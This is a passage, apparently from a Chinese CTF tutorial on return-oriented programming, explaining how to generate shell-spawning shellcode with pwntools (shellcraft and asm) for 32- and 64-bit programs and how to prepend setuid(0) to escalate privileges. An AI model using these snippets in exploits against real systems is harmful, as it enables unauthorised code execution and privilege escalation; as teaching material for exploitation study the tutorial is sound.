  便可构造出相关代码：![shell构造](./2_解析ROP（返回导向编程）.assets/shell构造.png)

  然后使用asm()函数将上面的代码转化为机器码：![将shellcode转化为机器码](./2_解析ROP（返回导向编程）.assets/将shellcode转化为机器码.png)

- #### 对于64位程序：

  先使其识别为64位程序：

  ```python
  context.arch = "amd64"
  ```

  构造64位的shell代码：

  ```python
  shellcraft.amd64.sh()
  ```

  然后使用asm()函数将上面的代码转化为机器码：

  ```python
  asm(shellcraft.amd64.sh())
  ```
  
- #### ==有时遇到权限不足的问题：==

  > 可使用`setuid(0)`尝试提权

  - **对于32位程序：**

    构造`setuid(0)`的机器码：`asm(shellcraft.i386.linux.setuid(0))`
